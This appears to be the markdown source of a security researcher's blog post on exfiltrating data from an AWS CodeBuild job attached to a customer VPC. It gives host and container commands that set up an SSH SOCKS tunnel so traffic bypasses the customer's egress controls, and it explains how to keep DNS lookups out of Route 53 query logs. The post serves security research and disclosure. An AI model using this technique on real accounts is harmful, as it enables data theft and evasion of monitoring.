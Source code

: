 ```yaml
---
layout: post
title: AWS VPC data exfiltration using CodeBuild
date: 2022-02-03 15:48:52 +1100
categories: blog
---
```


In September 2020, I published a [guest blog post][ian-blog] on [Ian Mckay][ian]'s
blog. The tl;dr is that "escaping" a privileged container running in an Amazon-managed
AWS account isn't a security concern for Amazon, thanks to defence-in-depth on
both an EC2 and IAM level. Here's a few paragraphs I left out of that blog post
at the time.

## But wait, there's more

As Corey said in the tweet at the start of that story, you _can_ grant CodeBuild
access to resources in your own VPC. CodeBuild is much like AWS Lambda in that 
regard: by default it has public Internet connectivity *or* you can allow it to
attach to your VPC to access internal resources. 

A [tweet by @amcabee13][anna-tweet] on her favourite topic of IP addresses for
VPC-unattached Lambdas got me thinking: some people attach Lambdas to VPCs 
because then it allows more observability and control over data egress, i.e. 
connections out to the Internet. The same goes for CodeBuild jobs: traffic will
now reach the Internet through whatever egress path you have and the associated 
security controls (firewalls, etc). But what about the EC2 instance the CodeBuild
container is running on - it's still in the AWS-managed VPC?

So naturally, I went back and checked. Running commands in the container had 
connectivity to the VPC. And running them on the host had connectivity directly 
to the public Internet, unassociated with the customer's (my) VPC. Could this 
make for very convenient data exfiltration? The answer is: yes, quite easy! 

First, run commands like these on the CodeBuild **host**:

```
ssh-keygen
cat ~/.ssh/id_rsa.pub > /home/ec2-user/.ssh/authorized_keys
ssh -f -N -D 169.254.170.8:1080 ec2-user@localhost
```

Now in the CodeBuild **container** you can run:

```
# this is routed through the customer VPC
curl http://10.1.2.3/internal 

# this is routed through the AWS VPC, bypassing your VPC egress routing tables
curl --socks4a 169.254.170.8:1080 https://google.com  
```

Pay careful attention to the `a` at the end of that `--socks4a` flag. If you 
instead pass `--socks4` everything will work, but the DNS resolution of `google.com` 
will be done by the container and your malicious DNS queries could be recorded 
by [Route 53 Resolver Query Logs][query-logs] in the customer VPC, not the AWS VPC.


[ian-blog]: https://onecloudplease.com/blog/security-september-escaping-codebuild
[ian]: https://twitter.com/iann0036
[anna-tweet]: https://twitter.com/amcabee13/status/1300541996738715649
[query-logs]: https://aws.amazon.com/blogs/aws/log-your-vpc-dns-queries-with-route-53-resolver-query-logs/
